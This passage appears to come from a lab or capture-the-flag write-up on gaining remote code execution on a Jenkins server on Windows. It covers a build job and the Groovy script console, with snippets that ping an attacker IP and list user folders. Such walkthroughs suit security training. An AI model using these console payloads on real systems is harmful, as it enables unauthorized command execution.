 {{< figure src="/ox-hugo/2025-06-16-071929_.png" >}}

Now click "Save" at the bottom of the page
![](/ox-hugo/2025-06-16-070343_.png)


##### Using TCPDUMP To Listen for Ping Traffic: {#using-tcpdump-to-listen-for-ping-traffic}

We will use TCPDUMP on our attack host to listen for ping traffic

```shell
sudo tcpdump -n -i tun0 icmp
```


##### Executing The Jenkins Job: {#executing-the-jenkins-job}

We now select "Build Now" in jenkins and this will trigger the build pipeline.
![](/ox-hugo/2025-06-16-072040_.png)
As we can see we now see we have RCE on the host as the pings hit our listener.


#### Jenkins RCE Option 2: Using the Scripting Console: {#jenkins-rce-option-2-using-the-scripting-console}

We can also use the jenkins scripting console by navigating to -

-   <http://10.129.228.112:50000/askjeeves/script>

As this is a Windows Install we will use the below syntax to execute code

```shell
# Anything we put here will be run, below is just an example.
def cmd = "cmd.exe /c ping 10.10.14.16".execute();
println("${cmd.text}");
```

As you can see after we click "Run" it executes and we get output as the "Result"
![](/ox-hugo/2025-06-16-072647_.png)

Let's take a quick look and see what users are present on the system.

```shell
#When running command with trailing backslashes we need to escape them using double slashes
def cmd = ["cmd.exe", "/c", "dir", "C:\\Users\\"].execute()
println("${cmd.text}");
```

{{< figure src="/ox-hugo/2025-06-16-072905_.png" >}}


##### Jenkins Linux Scripting Console Syntax: {#jenkins-linux-scripting-console-syntax}

Note if jenkins is running on Linux the syntax is slightly different when running commands in the script console.
